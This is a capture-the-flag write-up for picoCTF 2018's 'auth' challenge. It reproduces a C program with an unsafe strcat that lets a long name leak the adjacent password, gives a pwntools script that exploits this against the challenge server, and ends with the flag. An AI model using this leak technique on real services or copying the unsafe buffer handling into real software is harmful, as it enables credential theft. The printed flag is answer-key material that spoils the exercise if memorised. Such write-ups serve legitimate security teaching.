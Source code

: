 # Problem
Can you authenticate to this [service](https://2018shell1.picoctf.com/static/0bb8663a6d82ba0c5d07f06e357c22ca/auth) and get the flag? Connect with ```nc 2018shell1.picoctf.com 31045```. [Source](https://2018shell1.picoctf.com/static/0bb8663a6d82ba0c5d07f06e357c22ca/auth.c).

## Hints:
Are all the system calls being used safely?

Some people can have reallllllly long names you know..

## Solution:

Lets download the files:
```bash
wget https://2018shell1.picoctf.com/static/0bb8663a6d82ba0c5d07f06e357c22ca/auth
wget https://2018shell1.picoctf.com/static/0bb8663a6d82ba0c5d07f06e357c22ca/auth.c
```

First, we investigate the source
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

int flag() {
  char flag[48];
  FILE *file;
  file = fopen("flag.txt", "r");
  if (file == NULL) {
    printf("Flag File is Missing. Problem is Misconfigured, please contact an Admin if you are running this on the shell server.\n");
    exit(0);
  }

  fgets(flag, sizeof(flag), file);
  printf("%s", flag);
  return 0;
}


int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  // Set the gid to the effective gid
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  
  // real pw: 
  FILE *file;
  char password[64];
  char name[256];
  char password_input[64];
  
  memset(password, 0, sizeof(password));
  memset(name, 0, sizeof(name));
  memset(password_input, 0, sizeof(password_input));
  
  printf("What is your name?\n");
  
  fgets(name, sizeof(name), stdin);
  char *end = strchr(name, '\n');
  if (end != NULL) {
    *end = '\x00';
  }

  strcat(name, ",\nPlease Enter the Password.");

  file = fopen("password.txt", "r");
  if (file == NULL) {
    printf("Password File is Missing. Problem is Misconfigured, please contact an Admin if you are running this on the shell server.\n");
    exit(0);
  }

  fgets(password, sizeof(password), file);

  printf("Hello ");
  puts(name);

  fgets(password_input, sizeof(password_input), stdin);
  password_input[sizeof(password_input)] = '\x00';
  
  if (!strcmp(password_input, password)) {
    flag();
  }
  else {
    printf("Incorrect Password!\n");
  }
  return 0;
}
```

Our goal is to pass ```if (!strcmp(password_input, password))``` and to call ```flag()```.

We can solve this in few ways:
* We can see that "password.txt" is relative, we can create such file in the home directory, and create soft link to the flag file. No need to leak/guess anything.
* The intended way, we can see that ```password``` comes in memory right after ```name```, if the name will be long enough, the ```strcat``` will override the terminating null, and the ```puts``` printing the name will print the password as well. We can alse see that the password won't change between executions.

Now lets write a simple python script:
```python
#!/usr/bin/env python

from pwn import *


debug = 0

if debug:
  p = process('./auth')
else:
  p = remote('2018shell1.picoctf.com', 31045)

print p.recvuntil('What is your name?')
p.sendline('A' * 250)
p.sendline('BBBB') # Dummy password
pw = p.recvall().split('\n')[2][256 - 250 - 2 :]

log.info('Leaked password: {}'.format(pw))

if debug:
  p = process('./auth')
else:
  p = remote('2018shell1.picoctf.com', 31045)

print p.recvuntil('What is your name?')
p.sendline('A')
print p.recvuntil('Please Enter the Password.')
log.info('Sending password: {}'.format(pw))
p.sendline(pw)

print p.recvall()
```

Flag: picoCTF{aLw4y5_Ch3cK_tHe_bUfF3r_s1z3_d1667872}
